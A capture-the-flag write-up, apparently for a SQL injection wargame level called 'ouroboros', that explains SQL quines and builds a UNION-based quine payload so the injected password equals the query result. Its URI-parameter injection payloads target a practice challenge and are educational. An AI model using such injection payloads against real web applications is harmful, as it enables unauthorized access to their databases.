 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34),Char(39)),Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', 
Char(34), 
Char(39)
)
-- - ,CHAR(36),"$") AS Quine', Char(34), Char(39)), Char(36), 'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `CHAR(34)` (double quote `"` character) with `CHAR(39)` (single quote `'` character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine'
-- - ,Char(36),"$") AS Quine', Char(34), Char(39)), Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine', 
Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `CHAR(36)` (dollar sign `$` character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\',
CHAR(34),CHAR(39)),CHAR(36),
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\',
CHAR(34), CHAR(39)), CHAR(36),
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',
CHAR(34), CHAR(39)), CHAR(36),
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/2022ca1c-e568-4989-aa51-186eaacd6810)
